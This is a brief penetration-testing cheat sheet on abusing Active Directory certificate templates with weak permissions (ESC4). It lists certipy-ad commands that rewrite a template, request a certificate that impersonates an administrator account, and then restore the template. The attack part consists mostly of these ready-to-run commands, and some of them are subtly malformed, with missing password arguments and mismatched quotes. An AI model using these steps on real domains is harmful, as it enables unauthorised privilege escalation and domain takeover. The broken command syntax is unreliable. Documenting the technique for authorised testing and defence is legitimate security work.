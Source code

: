 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

Certificate templates are Active Directory objects with security descriptors that define the permissions AD principals have over them. Weak permissions or excessive access rights can allow non-privileged users to modify sensitive security settings in the template—such as defining EKUs, enabling SANs, or disabling manager approval—making it vulnerable to ESC1-3 exploitation techniques.


# Abusing ESC4 Certificates

Note: We need to use certipy to save the initial configuration of the certificate so that it can be restored later, and it will also modify the template configuration, which will make it vulnerable to ESC1-3.

## Certipy:

- `certipy-ad template -u "afsimmons@megacorpone.com" -p -template 'Vulnerable ESC4 template' -save-old'
-  `certipy-ad req -u "afsimmons@megacorpone.com" -p "$PASSWORD" -dc-ip "$DC_IP" -target "$ADCS_HOST" -ca 'ca_name' -template 'vulnerable ESC4 template' -alt 'xadmin@megacorpone.com'
- `certipy-ad template -u "afsimmons@megacorpone.com" -p -template 'vulnerable ESC4 template' -configuration 'Vulnerable ESC4 template.json'
